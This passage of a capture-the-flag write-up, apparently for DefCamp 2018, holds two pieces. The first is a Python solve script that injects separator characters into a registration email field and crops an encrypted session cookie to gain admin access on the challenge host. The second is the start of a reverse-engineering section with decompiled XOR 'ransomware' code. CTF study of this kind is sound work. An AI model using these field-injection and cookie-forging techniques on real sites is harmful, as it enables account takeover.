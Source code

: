 ```python
        if checksum:
            return f'id¡{_id}÷username¡{user}÷email¡{mail}÷checksum¡{checksum}'
        return f'id¡{_id}÷username¡{user}÷email¡{mail}'
    checksum = zlib.crc32(_compress(_id, user, mail).encode())
    return _compress(_id, user, mail, checksum)

username = 'T'+secrets.token_hex(5)
password = 'socute<3'
mail = secrets.token_hex(6)
print(username, password)
fixed_checksum = compress(1, username, mail).split('¡')[-1]
print(fixed_checksum)
payload = mail + f'÷id¡1÷checksum¡{fixed_checksum}'
c = compress(112, username, payload).encode()
print(c.decode())
print(*fold16(c), sep='\n')
aasdw

# register
s.post('https://admin.dctfq18.def.camp/register.php', data={
    'username': username,
    'password': password,
    'confirm_password': password,
    'email': payload,
})
s.post('https://admin.dctfq18.def.camp/', data={'username': username, 'password': password})
cookie = s.cookies.get_dict()['user']
l = int(cookie[-6:])
print('plaintext len = ', int(cookie[-6:]))
cookie = cookie[:-6]
print(cookie)
dec = base64.b64decode(unquote(cookie))
print(*fold16(dec), sep='\n')
assert len(dec) == 16 * 7
crop = dec
new_cookie = quote(base64.b64encode(crop)) + str(64+16).zfill(6)
r = requests.get('https://admin.dctfq18.def.camp/', cookies=dict(user=new_cookie))
print(r.status_code)
print(r.text)
#DCTF{4EF853DFC818AFEC39497CD1B91625F9E6E19D34D8E43E56722026F26A95F13E}
```


## Reverse

### ransomware
this chal provides two file: `ransomware.pyc` and `youfool!.exe`.
First use `uncompyle6` to get `ransomware.py`, and change the symbols inside it, we got the following code.
```python
import string
from random import *
import itertools

def caesar_cipher(text, key):
    key = key * (len(text) / len(key) + 1)
    return ('').join((chr(ord(text_chr) ^ ord(key_chr)) for text_chr, key_chr in itertools.izip(text, key)))


f = open('./FlagDCTF.pdf', 'r')
buf = f.read()
f.close()
```